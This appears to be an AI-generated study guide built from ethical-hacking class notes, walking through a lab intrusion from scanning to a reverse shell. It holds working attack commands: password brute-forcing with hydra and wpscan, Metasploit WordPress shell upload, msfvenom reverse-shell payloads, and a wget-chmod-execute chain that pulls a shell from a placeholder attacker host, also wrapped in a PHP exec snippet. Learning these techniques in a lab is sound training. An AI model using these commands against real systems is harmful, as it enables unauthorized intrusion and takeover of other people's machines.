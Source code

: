 <img src="https://r2cdn.perplexity.ai/pplx-full-logo-primary-dark%402x.png" class="logo" width="120"/>

## Ethical Hacking Steps (Based on Class Notes)

**Phase 1: Initial Reconnaissance \& Enumeration**

1. **Identify IPs:**
    * Find your attacker machine's IP address: Run `ip a` (look under your network interface, e.g., `ens18`). Let's call this `<ATTACKER_IP>`.
    * Identify the target machine's IP address. Let's call this `<TARGET_IP>`.
2. **Basic Connectivity Check:**
    * Ping the target to ensure it's reachable: `ping <TARGET_IP>`
3. **Port and Service Scanning:**
    * Scan the target for open ports and running service versions: `sudo nmap -sS -sV <TARGET_IP>`
    * Note down interesting open ports (like 80/http, 443/https, 22/ssh, etc.) and the services/versions running on them.
4. **Web Directory \& File Discovery:**
    * If a web server is running (e.g., on port 80), scan for hidden directories and files:
        * Using `dirb`: `dirb http://<TARGET_IP> /usr/share/wordlists/dirb/common.txt` (or another wordlist).
        * Using `dirbuster` (GUI tool): Launch `dirbuster`, set the target URL (`http://<TARGET_IP>`), choose a wordlist (e.g., `/usr/share/wordlists/dirb/common.txt`), turn *off* "Be Recursive", and start.
    * Look for interesting paths like `/admin`, `/login`, `/phpmyadmin`, `/wp-admin`, etc.

**Phase 2: Vulnerability Identification \& Exploitation (Choose path based on findings)**

* **Scenario A: Basic Authentication Found (e.g., `/admin`)**

1. If a directory requires basic HTTP authentication, try to crack it.
2. You need a potential username (e.g., `admin` found via enumeration or guessing).
3. Use `hydra` to brute-force the password (syntax not provided in notes, but this is the tool mentioned).
4. Once credentials (`<USERNAME>:<PASSWORD>`) are found, you can access the protected area. You might use these credentials with `dirb` for further discovery: `dirb http://<TARGET_IP>/admin/ -u <USERNAME>:<PASSWORD>`. Look for file upload features or other vulnerabilities.
* **Scenario B: WordPress Site Identified**

1. Use `wpscan` for detailed enumeration: `sudo wpscan --url http://<TARGET_IP> -e at,ap,u` (enumerates all themes, all plugins, users).
2. Note the WordPress version, theme versions, and plugin versions.
3. **Check for known vulnerabilities:** Search sites like `exploit-db.com` for vulnerabilities in the specific WordPress version, themes, or plugins found. Prioritize "verified" exploits, especially Remote Code Execution (RCE) or Unauthenticated exploits.
        * If an exploit script is found (e.g., a Python script `exploit.py` for a vulnerable plugin): Download it and run it according to its instructions (e.g., `python3 exploit.py http://<TARGET_IP>`). This might grant you access or RCE directly.
4. **Attempt Login Brute-Force:** If you found potential usernames (e.g., `admin`), try brute-forcing the password: `wpscan --url http://<TARGET_IP> --usernames <USERNAME> --passwords /usr/share/wordlists/rockyou.txt` (Note: Use a relevant wordlist; `rockyou.txt` is common but large. Your notes suggest passwords might be within the first few thousand entries).
5. **If Admin Access Gained:**
        * *Method 1 (Manual Theme Edit):* Navigate to Appearance -> Theme Editor. Find a theme PHP file that gets executed (e.g., often related to comments, like `comments.php`, or sometimes `404.php`). **Carefully** replace its content with a PHP web shell or code execution snippet (see Phase 3, Step 3b). Trigger the code by visiting a page that uses that theme file.
        * *Method 2 (Metasploit):* Use the `msfconsole`:
            * `search wordpress shell`
            * Find and `use exploit/unix/webapp/wp_admin_shell_upload`
            * `options` (check required settings)
            * `set RHOSTS <TARGET_IP>`
            * `set USERNAME <ADMIN_USERNAME>`
            * `set PASSWORD <ADMIN_PASSWORD>`
            * `set TARGETURI /` (or the path to the WP root, e.g., `/wordpress/`)
            * `set LHOST <ATTACKER_IP>` (Optional, for the reverse shell payload)
            * `set LPORT <PORT>` (Optional, for the reverse shell payload)
            * `run`
            * This should give you a shell (possibly Meterpreter).
* **Scenario C: phpMyAdmin Found**

1. Identify the phpMyAdmin version (check the login page source code for `v=X.Y.Z` or log in if you have credentials - notes provided `pma:pmapass` as an example for one machine).
2. Search `exploit-db.com` for the specific version (e.g., `phpmyadmin 4.8.1 rce`). Look for verified RCE exploits.
3. If an exploit script is found (e.g., `pma.py`), use it to gain command execution. The example command structure looks like:
`python3 pma.py <TARGET_IP> <TARGET_PORT> <PATH_TO_PHPMYADMIN> <USERNAME> <PASSWORD> 'COMMAND'`
Example: `python3 pma.py 40.0.5.4 80 /phpmyadmin pma pmapass 'whoami'`
4. Use this command execution capability to perform the steps in Phase 3 (specifically Step 3c, the `wget` method).
* **Scenario D: General File Upload / LFI / RCE Vulnerability**

1. If you find a way to upload files, try uploading a web shell (e.g., a simple PHP shell).
2. If you find a Local File Inclusion (LFI) vulnerability, try to leverage it to read sensitive files or potentially combine it with file upload for code execution.
3. If you find any other mechanism that allows executing commands on the target system, use it for Phase 3.

**Phase 3: Gaining Shell Access (Reverse Shell Preferred)**

The most common method described is establishing a Reverse Shell, where the target connects *back* to your attacking machine.

1. **Prepare Attacker - Listener:**
    * Choose a port on your attacker machine that isn't in use (e.g., `4444`, `5555`). Let's call this `<PORT>`.
    * Open a terminal and start a listener using `netcat`: `nc -lvnp <PORT>`
    * Keep this terminal open. It will wait for the target to connect back.
2. **Prepare Attacker - Payload Generation:**
    * Use `msfvenom` to create shellcode. The payload type depends on the target OS and the vulnerability context.
        * **For Linux target (to create an ELF binary):** Use a stageless payload for `nc` compatibility.
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=<PORT> -f elf > shell.elf`
(Replace `x64` if target is 32-bit, e.g., `linux/x86/...`). Let's call the output file `<SHELL_FILENAME>.elf`.
        * **For PHP web vulnerability:**
`msfvenom -p php/reverse_php LHOST=<ATTACKER_IP> LPORT=<PORT> -f raw > shell.php`
Let's call the output file `<SHELL_FILENAME>.php`.
    * **Important:** Make sure `LHOST` is your `<ATTACKER_IP>` and `LPORT` is the `<PORT>` your `nc` listener is using.
3. **Deliver \& Execute Payload on Target:** This is the tricky part with "no general rule," depending on the vulnerability found in Phase 2.
    * **Method A (File Upload):** If you found a file upload vulnerability, upload your generated shell file (e.g., `<SHELL_FILENAME>.php` or `<SHELL_FILENAME>.elf`). Then, find a way to access or execute that uploaded file (e.g., browse to the PHP file's URL, or use another vulnerability to run the ELF binary).
    * **Method B (Direct PHP Execution):** If you can edit/inject PHP code (like the WordPress theme editor):
        * Paste the *content* of your `shell.php` (generated by `msfvenom`) into the editable PHP file on the server.
        * Access the modified page/feature to trigger the code.
    * **Method C (Command Injection / RCE - "CMD Shell" Technique):** If you have a way to execute shell commands on the target (via phpMyAdmin exploit, other RCE):

4. **Attacker:** In a *new* terminal (keep the `nc` listener running), navigate to the directory where you saved `<SHELL_FILENAME>.elf`.
5. **Attacker:** Start a simple web server to serve the shell file: `python3 -m http.server 8000` (This serves files from the current directory on port 8000. Keep this running).
6. **Target (via the RCE vulnerability):** Execute the following commands sequentially (often combined into one line separated by semicolons):
            * `cd /tmp` (Navigate to a writable directory)
            * `rm -f /tmp/<SHELL_FILENAME>.elf` (Optional: remove old attempts)
            * `wget http://<ATTACKER_IP>:8000/<SHELL_FILENAME>.elf` (Download the shell binary from your Python server)
            * `chmod 777 /tmp/<SHELL_FILENAME>.elf` (Make it executable)
            * `/tmp/<SHELL_FILENAME>.elf` (Execute the shell binary)
7. *Example combined command for the phpMyAdmin exploit:*
`python3 pma.py <TARGET_IP> <PORT> <PATH> <USER> <PASS> 'cd /tmp; rm -f /tmp/shell.elf; wget http://<ATTACKER_IP>:8000/shell.elf; chmod 777 /tmp/shell.elf; /tmp/shell.elf'`
8. *Example combined command for PHP `exec` function:*

```php
<?php
$cmd = 'cd /tmp; rm -f /tmp/shell.elf; wget http://<ATTACKER_IP>:8000/shell.elf; chmod 777 /tmp/shell.elf; /tmp/shell.elf';
exec($cmd, $output, $retval);
echo "Command executed. Output: <pre>";
print_r($output);
echo "</pre>";
?>
```

1. **Check Connection:**
    * If successful, your Python web server terminal should show a `200 OK` request for the shell file.
    * Your `nc -lvnp <PORT>` listener terminal should show a "connect to [...] from [...]" message, and you should now have a command prompt (`$` or `#`) from the target machine.

**Phase 4: Shell Stabilization \& Upgrade**

1. **Initial Interaction:** You now have a basic shell. It might be non-interactive or unstable (especially PHP shells, which might time out).
2. **Upgrade to Interactive Shell:** Try to upgrade to a better shell using Python (if available on the target):
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
(If `python3` isn't found, try `python`). This often gives you tab completion, command history (arrow keys), and lets you run interactive commands like `sudo`.
3. **Further Steps (Preview from notes):** Your notes mention Privilege Escalation (PE) using tools like LinPEAS/WinPEAS, checking SUID/SGID binaries, and looking for credentials/misconfigurations as the next likely step after gaining initial shell access.

**Important Considerations from Notes:**

* **File Naming:** If you modify and re-upload a shell file, give it a *new name* (e.g., `shell_v2.elf`) to avoid potential caching issues where the old file is served instead of the new one.
* **Staged vs. Stageless:** Your notes mention `msfvenom` can create staged (`payload/staged/`) vs. stageless (`payload/`) shells. Stageless (like `linux/x64/shell_reverse_tcp`) are simpler, self-contained, and work well with basic `nc` listeners, but might be detected more easily by antivirus. Staged payloads are smaller initially and download the rest later, making them stealthier but often requiring a compatible handler like Metasploit (`msfconsole`) instead of just `nc`.
* **Exploit Reliability:** Stick to "verified" exploits from sources like `exploit-db` when possible for higher success rates.
* **Target Environment:** Adapt payloads (`msfvenom -p ...`) and commands based on the target operating system (Linux vs. Windows) and architecture (x64 vs. x86).

